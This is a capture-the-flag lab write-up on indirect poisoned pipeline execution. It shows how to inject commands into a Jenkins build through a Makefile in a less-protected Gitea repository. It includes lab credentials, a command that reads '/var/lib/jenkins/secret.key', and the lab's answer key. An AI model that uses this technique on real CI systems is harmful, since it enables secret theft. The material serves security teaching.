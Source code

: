 # Day_21 [DevSecOps] Yule be Poisoned: A Pipeline of Insecure Code!

+ Deployable Machine: Yes

Description: One of the main reasons for acquiring AntarctiCrafts was for their crafty automation in gift-giving, wrapping, and crafting. After securing their automation, they discovered other parts of their CI/CD environment that are used to build and extend their pipeline. An attacker can abuse these build systems to indirectly poison the previously secured pipeline.

> IP: [10.10.254.216]

## LEARNING OBJECTIVES

1. Understand how a larger CI/CD environment operates.
2. Explore indirect poisoned pipeline execution (PPE) and how it can be used to exploit Git.
3. Apply CI/CD exploitation knowledge to the larger CI/CD environment.

## OVERVIEW

1. Indirect Poisoned Pipeline Execution
   1. Let's briefly shift our focus back to the development stage. In the previous task, poisoned pipeline execution was introduced, wherein an attacker has direct write access to a repository pipeline. If an attacker doesn't have direct write access (to a main-protected or branch-protected repository, for example), it's possible they have write access to other repositories that could indirectly modify the behaviour of the pipeline execution. 

## STEPS

1. Deploy Machine
2. Navigate to website
   1. Gitea: [http://10.10.254.216:3000]
      1. UN: guest
      2. PW: password123
      3. In here we see two repos
         1. gift-wrapper
         2. gift-wrapper-pipeline
   2. Jenkins: [http://10.10.254.216:8080]
      1. UN: admin
      2. PW: admin
      3. In here we see one project
         1. gift-wrapper-build
3. GIFT-WRAPPER-PIPELINE
   1. Lookin into the pipeline repository we see a jenkins file

      ```jenkinsfile
         stages {
            stage('Do nothing') {
            stage('Prepare') {
               steps {
                     sh 'whoami'
                     git 'http://127.0.0.1:3000/McHoneyBell/gift-wrapper.git'
               }
            }

            stage('Build') {
               steps {
                     sh 'make || true'
               }
            }
         }
      ```

      1. In the changes colors we see that stage('Do nothing') was changed to stage('Prepare') and steps{ sh 'whoami' } was changed to steps{ git 'http://127.0.0.1:3000/McHoneyBell/gift-wrapper.git' }
4. CLONE GIFT-WRAPPER-PIPELINE
   1. Lets clone the repository so we can make some changes
      1. > git clone 'http://10.10.254.216:3000/McHoneyBell/gift-wrapper-pipeline.git'
   2. Now lets make a change
      1. Change line 13 of jenkinsfile 
         1. sh 'make || true' to sh 'whoami'
   3. Commit and push changes
      1. > git add .
      2. > git commit -m "Added whoami"
      3. > git push
         1. RESPONSE: Username for 'http://10.10.254.216:3000':
            1. This tells us that these repos are main-protected and branch-protected
            2. So we need a different method
5. MAKEFILE
   1. Looking at the jenkinsfile we see it uses a makefile which means it runs commands specified.
   2. However, the makefile is held in the gift-wrapper repository which means it might have different protections than the pipeline
6. CLONE GIFT-WRAPPER
   1. Lets clone the other repository
      1. > git clone http://10.10.254.216:3000/McHoneyBell/gift-wrapper.git
   2. Now lets make some changes
      1. In the Makefile remove the "to_pip.sh" script and add "whoami"
   3. Commit and push
      1. > git add .
      2. > git commit -m "whoami"
      3. > git push
      4. SUCCESS!
7. JENKINS
   1. Now go back to jenkins and navigate to "gift-wrapper-build" -> "gift-wrapper-pipeline" -> "main" -> "console output"
   2. In here we see
      1. > whoami
      2. jenkins
         1. SUCCESS!! We have poisnoned the pipeline and now we know we can run commands
8. EXPLOIT
   1. Linux Version
      1. In the makefile lets add the command
         1. > uname -r
   2. Secret.key
      1. In the make file lets add the command
         1. > cat /var/lib/jenkins/secret.key
   3. COMMIT
      1. Commit our changes
   4. JENKINS
      1. Now go back to the jenkins build and look for our command outputs
      2. OUTPUT
         1. VERSION = `5.4.0-1029-aws`
         2. KEY = `90e748eafdd2af4746a5ef7941e63272f24f1e33a2882f614ebfa6742e772ba7`

## QUESTIONS

1. What Linux kernel version is the Jenkins node?
   1. `5.4.0-1029-aws`
2. What value is found from /var/lib/jenkins/secret.key?
   1. `90e748eafdd2af4746a5ef7941e63272f24f1e33a2882f614ebfa6742e772ba7`